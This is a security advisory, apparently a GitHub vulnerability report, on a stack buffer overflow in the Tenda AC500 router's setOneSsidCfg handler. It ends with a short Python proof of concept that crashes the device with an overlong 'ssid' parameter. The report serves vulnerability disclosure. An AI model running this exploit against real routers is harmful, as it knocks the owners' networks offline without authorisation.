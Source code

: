 # Tenda Router AC500 Vulnerability
This vulnerability lies in the `/goform/setOneSsidCfg` page which influences the lastest version of Tenda Router AC500. (The latest version is [AC500_V2.0.1.9(1307)](https://www.tenda.com.cn/download/detail-2470.html))
## Vulnerability Description
There is a stack-based buffer overflow vulnerability in function `formOneSsidCfgSet`.

In function `formOneSsidCfgSet` it reads user provided parameter `ssid` into src`, and this two variable is passed into function `strcpy` without any length check, which may overflow the stack-based buffer `s`.
![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/CNVDs/113_2/vlun.png)

So by requesting the page `/goform/setOneSsidCfg`, the attacker can easily perform a Deny of Service Attack.
## POC
```
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/setOneSsidCfg?"
url += "ssid=" + "s" * 100

response = requests.get(url)
```
## Timeline
## Acknowledgment
Credit to [@Funcy_kilar](https://github.com/Funcy33) from Guangzhou University.
